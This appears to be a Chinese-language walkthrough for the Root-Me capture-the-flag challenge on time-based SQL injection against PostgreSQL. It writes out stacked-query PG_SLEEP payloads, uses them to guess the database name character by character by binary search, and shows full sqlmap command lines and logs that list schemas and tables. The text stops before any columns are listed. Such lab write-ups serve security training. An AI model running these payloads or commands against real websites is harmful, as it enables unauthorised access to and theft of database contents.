- 来源：Root-Me
- 题型：Web-Server
- 题目：SQL injection - Time based
- 分数：45 Points
前言
基于延时的 SQL 注入。
其实就是布尔注入的衍生题型，只是因为当我们注入的 SQL 触发的信息被页面屏蔽，而不得不通过延时的方式间接判断是否注入的结果是 true 还是 false 。
不过无论是布尔注入还是延时注入，除了 payload 存在少量差异之外，获取信息的方式主要都是依赖二分法缩窄范围、逐字符提取。整个流程如果通过人工操作都是十分麻烦的，所以最好还是借助工具去解题，这里推荐 sqlmap 。
另外关于 PostgreSql 的注入可以参考这几篇文章：
确认注入点
首先确认注入点。
这个挑战可以发起 GET 请求的地方不多，通过 sqlmap 逐个测试，不难发现注入点在这里：
http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=2;[注入点]


其中 sqlmap 可以通过 Burp Suite 直接调用，由 Burp Suite 把捕获到的 HTTP 请求转发到 sqlmap 进行测试会方便很多。

Burp Suite 会把疑似注入点的 HTTP 请求存储到临时文件，例如：
C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req ，该文件的内容一般如下：
GET http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1 HTTP/1.1
Host: challenge01.root-me.org
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.109 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p1avf8lq2g6ghu0ec55469a5q5; uid=wKgbZFyNpfC9kX5+FXwkAg==
Connection: close然后通过 sqlmap 的 -r 参数读取这 HTTP 请求文件即可。
这是使用 sqlmap 的测试记录：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req
___
__H__
___ ___[']_____ ___ ___ {1.3.3.23#dev}
|_ -| . [.] | .'| . |
|___|_ [)]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 13:59:51 /2019-03-16/
[13:59:51] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[13:59:51] [INFO] testing connection to the target URL
[13:59:52] [INFO] testing if the target URL content is stable
[13:59:53] [INFO] target URL content is stable
[13:59:53] [INFO] testing if GET parameter 'action' is dynamic
[13:59:53] [INFO] GET parameter 'action' appears to be dynamic
[13:59:53] [WARNING] heuristic (basic) test shows that GET parameter 'action' might not be injectable
[13:59:54] [INFO] testing for SQL injection on GET parameter 'action'
[13:59:54] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:59:57] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:59:58] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:00:00] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:00:01] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:00:03] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:00:05] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[14:00:05] [INFO] testing 'MySQL inline queries'
[14:00:06] [INFO] testing 'PostgreSQL inline queries'
[14:00:06] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[14:00:06] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:00:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:00:09] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[14:00:10] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[14:00:12] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[14:00:14] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:00:15] [INFO] testing 'Oracle AND time-based blind'
[14:00:17] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[14:00:35] [WARNING] GET parameter 'action' does not seem to be injectable
[14:00:35] [INFO] testing if GET parameter 'member' is dynamic
[14:00:36] [WARNING] GET parameter 'member' does not appear to be dynamic
[14:00:36] [WARNING] heuristic (basic) test shows that GET parameter 'member' might not be injectable
[14:00:36] [INFO] testing for SQL injection on GET parameter 'member'
[14:00:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:00:40] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[14:00:40] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[14:00:42] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[14:00:44] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[14:00:45] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[14:00:47] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[14:00:47] [INFO] testing 'MySQL inline queries'
[14:00:48] [INFO] testing 'PostgreSQL inline queries'
[14:00:48] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[14:00:48] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[14:00:54] [INFO] GET parameter 'member' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] Y
[14:01:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:01:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:01:23] [INFO] checking if the injection point on GET parameter 'member' is a false positive
GET parameter 'member' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 196 HTTP(s) requests:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[14:01:58] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[14:01:58] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 14:01:58 /2019-03-16/通过 sqlmap 的输出结果可知，这是一个 PostgreSQL 数据库，所测试的 HTTP 请求可以作为一个 stacked queries （堆叠注入点），探针是 2;SELECT PG_SLEEP(5)-- 。
堆叠注入 是指可以通过分号
;拼接多条 SQL 。

构造通用 payload
对探针稍微改造下，可以构造这样的通用 payload ：
2;(SELECT (CASE WHEN ([注入点]) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
其中 [注入点] 替换成用于获取信息的布尔注入 SQL ，当布尔结果为 true 时，页面延时 5 秒，否则延时 0 秒。
可能是题目做过延时上限限制，最长的延时时间实际只有 3 秒。
布尔注入 + 二分法获取数据库信息
利用通用 payload 就可以构造很多针对性的 payload 了。
例如我们要得到数据库的名称，在 pgsql 中可以通过 CURRENT_DATABASE() 函数获得。
不过要通过布尔注入获得这个值，需要先知道这个名称（字符串）的长度。
为此可以构造这组 payload ，通过不断二分法进行长度猜测，得知数据库名称长度为 15 ：
// 猜测数据库名称的长度大于 10，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) > 10) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的长度小于 10，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) < 20) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的长度小于 15，页面没有延时，说明猜测错误
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) < 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的长度大于 15，页面没有延时，说明猜测错误
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) > 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 验证数据库名称的长度等于 15，页面发生延时，说明猜测正确
2;(SELECT (CASE WHEN (SELECT LENGTH(CURRENT_DATABASE()) = 15) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--知道长度后，可以开始逐字符猜解数据库名称。
这个过程中需要利用到的函数有两个：
SUBSTR(str,pos,len)：从 str 中下标为 pos 的字符开始截取长度为 len 的子串（pos 从 1 开始）ASCII(char)：得到字符的十进制 ASCII 编码
而逐字符猜解数据库名称的原理也是很简单，通过二分法确定数据库名称每一个字符在 ASCII 表中的哪个位置即可。
ASCII 表的十进制范围为 0~127 ，因此要确定一个字符，最多需要二分查找 7 次。
实际操作一下，构造第 1 个字符的 payload 组如下，得到第 1 个字符为 c：
// 猜测数据库名称的第 1 个字符 ASCII 码大于 64，页面发生延时，说明猜测正确，该字符范围为 (64, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 64) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码大于 98，页面发生延时，说明猜测正确，该字符范围为 (98, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 98) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码大于 114，页面没有延时，说明猜测错误，该字符范围为 (98, 114]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) > 114) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码小于 106，页面发生延时，说明猜测正确，该字符范围为 (98, 106)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 106) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码小于 102，页面发生延时，说明猜测正确，该字符范围为 (98, 102)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 102) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码小于 100，页面发生延时，说明猜测正确，该字符范围为 (98, 100)
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) < 100) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 1 个字符 ASCII 码等于 99，页面发生延时，说明猜测正确，该字符为 ASCII(99) = 'c'
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),1,1)) = 99) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--再构造第 2 个字符的 payload 组如下，得到第 2 个字符为 _：
// 猜测数据库名称的第 2 个字符 ASCII 码大于 64，页面发生延时，说明猜测正确，该字符范围为 (64, 127]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 64) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码大于 98，页面没有延时，说明猜测错误，该字符范围为 (64, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 98) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码小于 82，页面没有延时，说明猜测错误，该字符范围为 [82, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) < 82) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码大于 90，页面发生延时，说明猜测正确，该字符范围为 (90, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 90) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码大于 94，页面发生延时，说明猜测正确，该字符范围为 (94, 98]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 94) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码大于 96，页面没有延时，说明猜测错误，该字符范围为 (94, 96]
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) > 96) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--
// 猜测数据库名称的第 2 个字符 ASCII 码等于 95，页面发生延时，说明猜测正确，该字符为 ASCII(95) = '_'
2;(SELECT (CASE WHEN (ASCII(SUBSTR(CURRENT_DATABASE(),2,1)) = 95) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END))--由于前面已经得知数据库名称长度为 15 ，若要通过二分法全部猜解出来，最坏的情况要发起 15 * 7 = 105 次猜测请求，非常繁琐且耗时，所以这里我就不再逐一罗列 payload 了。按照前面的步骤逐个字符猜下去，最终得到的数据库名称为 c_webserveur_40 。
通过这个方法，完全可以实现拖库（即得到数据库中所有表名称、每个表的列、每一列的数据）。但是效率太低了，所以现在开始改用 sqlmap 完成这个过程。
可选：设置 sqlmap 代理
由于前面已经通过 Burp Suite 构造了 HTTP 请求文件 1552787207472.req，就直接利用好了。
执行 sqlmap 命令（不能直接复制用，-r 参数需根据实际使用的而定）：
sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req不过在天朝的同学很可能会出现如下连接失败的报错：
[09:46:50] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
目前 Rootme 还没有加 WAF ，所以这个错误不是 WAF 引起的，不需要考虑绕过。
这是因为天朝网络的缘故，虽然 Rootme 还不在墙后，但是最好还是通过科学代理加速一下，例如 shadowsocks 。
sqlmap 可以通过 --proxy 添加科学代理，这次命令就正常执行了：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080
___
__H__
___ ___[,]_____ ___ ___ {1.3.3.23#dev}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 09:47:41 /2019-03-17/
[09:47:41] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:47:41] [INFO] resuming back-end DBMS 'postgresql'
[09:47:41] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:47:42] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:47:42] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 09:47:42 /2019-03-17/
通过 sqlmap 获取数据库信息
因为已经知道是延时注入，所以在使用 sqlmap 时需要添加延时时常参数 --time-sec。
获得所有数据库模式名称
首先通过 sqlmap 的 --dbs 参数查询所有库名：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 --dbs
___
__H__
___ ___["]_____ ___ ___ {1.3.3.23#dev}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 09:48:22 /2019-03-17/
[09:48:22] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:48:23] [INFO] resuming back-end DBMS 'postgresql'
[09:48:23] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:48:24] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:48:24] [WARNING] schema names are going to be used on PostgreSQL for enumeration as the counterpart to database names on other DBMSes
[09:48:24] [INFO] fetching database (schema) names
[09:48:24] [INFO] fetching number of databases
[09:48:24] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:48:47] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
3
[09:48:59] [INFO] retrieved: information_schema
[09:52:35] [INFO] retrieved: pg_catalog
[09:54:43] [INFO] retrieved: public
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
[09:55:56] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 09:55:56 /2019-03-17/不难注意到，我们在前面查询到 CURRENT_DATABASE() 的值是 c_webserveur_40 。
而这里通过 sqlmap 的 --dbs 获得的三个库名没有一个是 c_webserveur_40 。
这是因为在 pgsql 中，数据库的分层结构是 database/schema/table 。
而 CURRENT_DATABASE() 得到的是 database 名称，sqlmap 得到的是三个 schema 名称（schema 即数据库模式）。

获得当前的数据库模式
一般情况下，用户表都是存储在数据库模式 public 中的。
要验证的话，可以通过 sqlmap 的 --current-db 参数获得当前的数据库模式：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 --current-db
___
__H__
___ ___[)]_____ ___ ___ {1.3.3.23#dev}
|_ -| . [)] | .'| . |
|___|_ ["]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 09:57:13 /2019-03-17/
[09:57:13] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[09:57:13] [INFO] resuming back-end DBMS 'postgresql'
[09:57:13] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[09:57:14] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[09:57:14] [INFO] fetching current database
[09:57:14] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[09:57:39] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
public
[09:58:49] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
current schema (equivalent to database on PostgreSQL): 'public'
[09:58:49] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 09:58:49 /2019-03-17/
获得当前数据库模式中的所有表名
知道当前数据库模式后，就可以通过 sqlmap 的 -D 参数指定模式名，再通过 --tables 参数查询这个模式下的所有表名：
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public --tables
___
__H__
___ ___[)]_____ ___ ___ {1.3.3.23#dev}
|_ -| . [)] | .'| . |
|___|_ [.]_|_|_|__,| _|
|_|V... |_| http://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] starting @ 10:02:26 /2019-03-17/
[10:02:26] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:02:26] [INFO] resuming back-end DBMS 'postgresql'
[10:02:26] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
Type: stacked queries
Title: PostgreSQL > 8.1 stacked queries (comment)
Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:02:27] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:02:27] [INFO] fetching tables for database: 'public'
[10:02:27] [INFO] fetching number of tables for database 'public'
[10:02:27] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:02:50] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
1
[10:02:57] [INFO] retrieved: users
Database: public
[1 table]
+-------+
| users |
+-------+
[10:03:59] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'
[*] ending @ 10:03:59 /2019-03-17/
获得指定表的表结构
很明显，public 模式下只有一张表 users 。
可以通过 sqlmap 的 -T 参数指定这张表，再通过 --columns 参数查询其表结构：
